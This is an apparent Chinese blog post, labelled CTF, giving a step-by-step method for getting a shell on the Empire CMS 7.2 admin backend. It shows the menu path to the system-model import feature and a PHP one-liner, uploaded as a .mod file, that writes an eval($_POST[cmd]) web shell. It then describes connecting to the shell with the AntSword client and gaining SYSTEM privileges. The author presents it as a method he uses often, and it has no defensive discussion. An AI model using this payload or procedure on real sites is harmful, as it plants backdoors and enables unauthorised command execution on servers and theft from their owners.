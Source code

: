 ```yaml
---
layout: post
title: "帝国 cms 7.2 后台 GetShell" 
subtitle: "帝国cms 7.2 后台 GetShell"
date: 2019-07-07
author: ppbibo
category: CTF
---
```


[TOC]

# 帝国cms 7.2 后台 GetShell





**PS：**因为经常用到帝国cms 7.2 所以这里记录下Getshell的方法



## 0x1 流程

系统设置——数据表与系统模型——管理数据表——管理系统模型——导入系统模型

![1](/static/img/diguo1.png)

![diguo2](/static/img/diguo2.png)

##0x2 流程2

在本地新建1.php.mod文件,利用fopen函数写出一个x.php文件，文件内容为fopen函数第二个参数值，然后保存。

**[File Name]** 1.php.mod 

```bash
<?fputs(fopen("x.php","w"),"<?eval(\$_POST[cmd]);?>")?>
```

![diguo3](/static/img/diguo3.png)

导入成功之后访问 `http://abc.xxx.xxx.cn/e/admin/x.php` 密码为 cmd



## 0x3 中国蚁剑连接

![diguo4](/static/img/diguo4.png)

查看权限发现为 system 直接执行相关命令

![diguo5](/static/img/diguo5.png)



